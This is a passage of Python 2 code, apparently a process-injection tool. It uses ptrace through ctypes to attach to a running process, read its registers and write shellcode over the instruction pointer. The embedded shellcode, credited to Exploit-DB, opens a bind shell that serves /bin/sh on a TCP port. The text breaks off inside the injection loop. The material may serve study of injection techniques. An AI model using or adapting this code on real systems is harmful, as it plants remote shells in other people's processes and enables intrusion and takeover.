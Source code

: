 ```python
    	("r15", ctypes.c_ulonglong),
    	("r14", ctypes.c_ulonglong),
    	("r13", ctypes.c_ulonglong),
    	("r12", ctypes.c_ulonglong),
    	("rbp", ctypes.c_ulonglong),
    	("rbx", ctypes.c_ulonglong),
    	("r11", ctypes.c_ulonglong),
    	("r10", ctypes.c_ulonglong),
    	("r9", ctypes.c_ulonglong),
    	("r8", ctypes.c_ulonglong),
    	("rax", ctypes.c_ulonglong),
    	("rcx", ctypes.c_ulonglong),
    	("rdx", ctypes.c_ulonglong),
    	("rsi", ctypes.c_ulonglong),
    	("rdi", ctypes.c_ulonglong),
    	("orig_rax", ctypes.c_ulonglong),
    	("rip", ctypes.c_ulonglong),
    	("cs", ctypes.c_ulonglong),
    	("eflags", ctypes.c_ulonglong),
    	("rsp", ctypes.c_ulonglong),
    	("ss", ctypes.c_ulonglong),
    	("fs_base", ctypes.c_ulonglong),
    	("gs_base", ctypes.c_ulonglong),
    	("ds", ctypes.c_ulonglong),
    	("es", ctypes.c_ulonglong),
    	("fs", ctypes.c_ulonglong),
    	("gs", ctypes.c_ulonglong),
	]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
```
